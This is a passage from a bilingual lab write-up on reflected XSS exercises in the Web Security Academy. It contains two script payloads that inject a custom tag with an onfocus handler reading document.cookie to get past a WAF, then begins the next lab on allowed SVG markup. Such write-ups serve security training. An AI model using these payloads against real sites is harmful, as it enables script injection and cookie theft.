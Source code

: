- Injection

```html
<script>
location="https://0a3b009o0458243d802a764800a800ca.web-security-academy.net/?search=<test onfocus=alert(document.cookie) tabidex=1 id=test>#test"
</script>
```

```html
<script>
location="https://0a3b009o0458243d802a764800a800ca.web-security-academy.net/?search=<test onfocus=alert(document.cookie) autofocus tabidex=1>"
</script>
```

## XSS reflejado con etiquetas SVG permitidas || Reflected XSS with some SVG markup allowed


![](/img2/Pasted%20image%2020250724135842.png)

![](/img2/Pasted%20image%2020250724135913.png)

> Igual que los anteriores laboratorios, también tenemos un bloqueo de etiquetas por parte de un WAF.

![](/img2/Pasted%20image%2020250724140836.png)
